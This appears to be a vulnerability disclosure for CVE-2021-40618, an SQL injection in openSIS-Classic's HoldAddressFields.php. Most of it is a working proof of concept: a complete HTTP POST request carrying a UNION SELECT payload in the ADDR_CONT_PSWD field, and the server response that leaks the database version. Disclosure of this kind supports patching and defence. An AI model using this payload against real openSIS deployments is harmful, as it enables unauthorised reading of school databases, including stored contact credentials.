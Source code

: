 # CVE-2021-40618 (SQL Injection in file HoldAddressFields.php)

![#1589F0](https://via.placeholder.com/15/f03c15/000000?text=+) **Product:** `openSIS-Classic`

![#1589F0](https://via.placeholder.com/15/f03c15/000000?text=+) **Vulnerability param:** `ADDR_CONT_USRN, ADDR_CONT_PSWD, SECN_CONT_USRN, SECN_CONT_PSWD`

![#1589F0](https://via.placeholder.com/15/f03c15/000000?text=+) **Effected source code file:** `HoldAddressFields.php`

![#1589F0](https://via.placeholder.com/15/f03c15/000000?text=+) **CVSS3.0:** `9.8 CRITICAL`

# Description

Because of lacking of sanitizer of input data, attacker can injection malicious sql into query by control parameters such as `ADDR_CONT_USRN`, `ADDR_CONT_PSWD` or `SECN_CONT_USRN`, `SECN_CONT_PSWD` in file `HoldAddressFields.php`.


### Request

```
POST /HoldAddressFields.php HTTP/1.1
Host: 172.16.0.12:2222
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: vi,vi-VN;q=0.9,fr;q=0.8,en-US;q=0.7,en;q=0.6,sm;q=0.5,la;q=0.4,zh-CN;q=0.3,zh-TW;q=0.2,zh;q=0.1
Cookie: cywg_2132_saltkey=E2w57uH2; cywg_2132_lastvisit=1630101103; cywg_2132_ulastactivity=6590uIjzBHML3smc7veG8yziPxJyaiN4jgoE9aN3L3FvOCr3Ov1_; ORRL_2132_saltkey=SSddxNX7; ORRL_2132_lastvisit=1630117184; ORRL_2132_ulastactivity=4e4933KaEc2d5jrijCQZlYd-PcZ8j470p8v4gqPXPHDs6JlJdGR4; ORRL_2132_forum_lastvisit=D_1_1630131788D_index_1630131832; PHPSESSID=i3j7fp3hcjbmot1d60daol514a
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

ADDR_CONT_USRN=123&ADDR_CONT_PSWD="+union+select+1,2,3,4,version(),6,7,8,9--+-
```

### Response

```
HTTP/1.1 200 OK
Date: Wed, 01 Sep 2021 12:38:58 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.21
X-Powered-By: PHP/7.4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1372
Connection: close
Content-Type: text/html; charset=UTF-8





Array
(
    [ADDR_PRIM_L1] => 
    [ADDR_PRIM_L2] => 
    [ADDR_PRIM_CITY] => 
    [ADDR_PRIM_STATE] => 
    [ADDR_PRIM_ZIP] => 
    [ADDR_PRIM_BUSNO] => 
    [ADDR_PRIM_BPU] => 
    [ADDR_PRIM_BDO] => 
    [ADDR_SAME_HOME] => 
    [ADDR_SAME_AS] => 
    [ADDR_MAIL_L1] => 
    [ADDR_MAIL_L2] => 
    [ADDR_MAIL_CITY] => 
    [ADDR_MAIL_STATE] => 
    [ADDR_MAIL_ZIP] => 
    [ADDR_CONT_RSHIP] => 
    [ADDR_CONT_FIRST] => 
    [ADDR_CONT_LAST] => 
    [ADDR_CONT_HOME] => 
    [ADDR_CONT_WORK] => 
    [ADDR_CONT_CELL] => 
    [ADDR_CONT_MAIL] => 
    [ADDR_CONT_CUSTODY] => 
    [ADDR_CONT_PORTAL] => 
    [ADDR_CONT_USRN] => 123
    [ADDR_CONT_PSWD] => 10.4.20-MariaDB
    [ADDR_CONT_SAHA] => 
    [ADDR_CONT_ADNA] => 
    [ADDR_CONT_LIN1] => 
    [ADDR_CONT_LIN2] => 
    [ADDR_CONT_CITY] => 
    [ADDR_CONT_STAT] => 
    [ADDR_CONT_ZIP] => 
    [CHK_HOME_ADDR_PRIM] => 
    [SECN_CONT_RSHIP] => 
    [SECN_CONT_FIRST] => 
    [SECN_CONT_LAST] => 
    [SECN_CONT_HOME] => 
    [SECN_CONT_WORK] => 
    [SECN_CONT_CELL] => 
    [SECN_CONT_MAIL] => 
    [SECN_CONT_CUSTODY] => 
    [SECN_CONT_PORTAL] => 
    [SECN_CONT_USRN] => 
    [SECN_CONT_PSWD] => 
    [SECN_CONT_LIN1] => 
    [SECN_CONT_LIN2] => 
    [SECN_CONT_CITY] => 
    [SECN_CONT_STAT] => 
    [SECN_CONT_ZIP] => 
    [CHK_HOME_ADDR_SECN] => 
    [SELECTED_PRIMARY] => 
    [SELECTED_SECONDARY] => 
)


```


### PoC

![poc](https://user-images.githubusercontent.com/17811861/131673842-3ed048a9-e433-4ebb-806b-52a8f773ec67.png)
